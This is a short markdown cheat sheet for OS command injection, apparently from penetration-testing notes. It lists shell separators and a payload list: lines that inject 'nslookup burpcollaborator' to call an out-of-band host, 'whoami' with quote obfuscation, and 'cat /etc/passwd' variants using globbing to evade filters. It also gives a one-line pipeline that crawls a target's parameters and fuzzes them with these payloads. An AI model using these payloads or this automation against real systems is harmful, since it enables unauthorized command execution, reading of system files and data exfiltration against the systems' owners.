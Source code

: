 # Command Injection

### Command Seperators

```
& && | || 
https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration
```

### Payload List

```
    |nslookup burpcollaborator|
    ||nslookup burpcollaborator||
    &nslookup burpcollaborator&
    &&nslookup burpcollaborator&&
    ;nslookup burpcollaborator; 
    whoami 
    wh'o'a'm'i
    wh"o"a"m"i
    cat /etc/passwd 
    cat</etc/passwd
    Filename Expansion 
    cat /e??/p????d
    cat</e??/p????d
```

### automation

```
python3 paramspider.py -d target -s TRUE -e ttf,eof,woff,svg | httpx -silent | gf rce | while read host;do ffuf -u $host -w payloads; done
```
